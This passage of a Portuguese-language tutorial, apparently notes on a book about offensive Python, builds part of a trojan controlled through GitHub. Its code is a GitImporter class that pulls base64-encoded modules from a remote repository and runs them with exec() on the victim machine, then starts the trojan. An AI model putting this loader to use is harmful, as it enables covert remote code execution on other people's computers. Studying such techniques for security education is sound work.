 Agora temos um modo de se comunicar com um repositório remoto.

### Hackeando a funcionalidade import do Python

Nessa parte em sequência, os autores mencionam a seguinte situação: imaginemos que queremos importar uma biblioteca para nosso trojan mas ela não está instalada no computador da vítima (os métodos de instalação de libs remotas são difíceis). Outra, você quer utilizar as mesmas libs para todos os seus trojans na máquina vítima.

Com essa inspiração, criaremos o GitImporter, que, devido ao mecanismo de importação do Python, funciona para sanar essas pendências. Isso funciona pois o Python, quando não acha os módulos localmente, aceita classes de importação arbitrárias, possibilitando a recuperação de bibliotecas remotamente.

Para isso, devemos adicionar uma classe personalizada ao `sys.meta_path`, que é uma variável de lista de localizadores de importação (import finders). Ele permite que executemos códigos não presentes no dispositivo. Adicionaremos o seguinte código ao nosso trojan:

```py
# Essa é a classe que diremos ao sys.meta_path: "ela vai procurar, caso você não ache" 
class GitImporter:
    def __init__(self):
        self.current_module_code = ""   # string do código do módulo
        
    def find_module(self, name, path=None):
        print("[*] Tentando recuperar %s" % name)
        self.repo = github_connect()    # conexão com o git
        
        new_library = get_file_contents('modules', f'{name}.py', self.repo) # busca os arquivos no módulo remoto
        if new_library is not None:
            self.current_module_code = base64.b64decode(new_library)    # se ele achar, retorna a si mesmo 
                                                                        # como um indicativo de "consegui achar a lib"
            return self
        
    def load_module(self, name):
        spec = importlib.util.spec_from_loader(name, loader=None, 
                                               origin=self.repo.git_url) # realiza o import dinamico
        new_module = importlib.util.module_from_spec(spec)
        exec(self.current_module_code, new_module.__dict__) # executa o import do modulo
        sys.modules[spec.name] = new_module # retorna ao sys o módulo
        return new_module   
    
if __name__ == '__main__':
    sys.meta_path.append(GitImporter()) # na main, adiciona o import
    trojan = Trojan('teste')    # inicia o trojan
    trojan.run()    # roda-o
```


Pronto, agora testaremos o código.

